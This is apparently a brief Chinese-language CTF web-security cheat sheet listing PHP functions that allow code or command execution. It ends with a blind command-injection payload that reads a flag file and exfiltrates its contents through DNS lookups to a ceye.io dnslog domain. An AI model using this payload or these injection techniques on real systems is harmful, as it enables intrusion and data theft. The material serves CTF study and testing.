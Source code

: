 - PHP代码执行的几种方式：

  ```
  ${}执行代码
  eval
  assert
  preg_replace
  create_function()
  array_map()
  call_user_func()/call_user_func_array()
  array_filter()
  usort(),uasort()
  ```

- PHP命令执行的几种方式：

  ```
  system()
  passthru()
  exec()
  shell_exec()
  `反引号
  ob_start()
  mail函数+LD_PRELOAD执行系统命令
  ```

- 类似于`system("ping ".$ip);`这种测试没有回显，可采用dnslog的方式来查看回显：

  ```
  ping `cat where_is_flag.php|sed s/[[:space:]]/xx/g`.******.ceye.io
  # 因为域名中不允许有空格，但是php代码中可能会含有空格，所以使用sed命令将php代码的空格替换为xx
  ```

  ​
